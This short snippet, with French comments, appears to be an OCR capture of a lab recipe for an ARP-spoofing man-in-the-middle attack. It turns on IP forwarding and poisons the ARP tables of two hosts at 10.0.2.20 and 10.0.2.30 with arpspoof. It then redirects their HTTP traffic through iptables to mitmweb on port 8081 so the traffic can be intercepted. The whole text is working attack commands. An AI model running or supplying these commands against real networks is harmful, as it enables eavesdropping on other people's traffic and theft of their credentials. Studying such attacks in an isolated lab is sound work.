 # Activer le transfert IP
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Empoisonner les tables ARP
- sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
- sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20

# Rediriger le trafic HTTP vers le port 8081
sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8081

# Lancer mitmweb sur le port 8081, écouter sur toutes les interfaces
sudo mitmweb -p 8081 --host
